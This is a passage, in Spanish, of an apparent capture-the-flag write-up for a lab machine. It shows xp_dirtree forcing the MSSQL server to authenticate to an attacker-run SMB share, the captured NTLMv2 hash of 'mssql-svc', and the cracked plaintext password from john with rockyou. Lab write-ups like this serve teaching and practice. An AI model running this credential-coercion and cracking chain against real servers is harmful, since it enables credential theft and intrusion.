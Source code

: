 ```SQL
SQL> xp_dirtree '\\10.10.16.4\compartido\'
```

Si miramos nuestro servidor de SMB podemos ver que se ha autenticado y vemos el hash NTLMv2

```bash
smbserver.py ./ "compartido" -smb2support                                                                                             [14/14]
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation                                                                                                                                   
                                                                                                                                                                                           
[*] Config file parsed                                                                                                                                                                     
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                                                                                                     
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                                                                                                     
[*] Config file parsed                                                                                                                                                                     
[*] Config file parsed                                                                                                                                                                     
[*] Config file parsed                                                                                                                                                                     
[*] Incoming connection (10.10.10.125,49675)                                                                                                                                               
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)                                                                                                                                       
[*] User QUERIER\mssql-svc authenticated successfully                                                                                                                                      
[*] mssql-svc::QUERIER:4141414141414141:1ba7275a7eeffad66f177c7cb4c08be7:010100000000000000ecede06847d901eef23db4414ea4bf000000000100100048007300420047004f006e0051005200030010004800730042
0047004f006e005100520002001000660048004b007800500051005400620004001000660048004b00780050005100540062000700080000ecede06847d90106000400020000000800300030000000000000000000000000300000dddda
93f03c3ca3d8d094646dcbe3b41f914eae0e75cd2f7a92d2c257489c20a0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003400000000000000000000000000
```

El hash pertenece al usuario "mssql-svc". Voy a probar romperlo con la herramienta john.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:03 DONE (2023-02-23 10:40) 0.3194g/s 2863Kp/s 2863Kc/s 2863KC/s correg..coreyo05
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Ya tenemos la contraseña para el usuario mssql-svc

- mssql-svc:corporate568
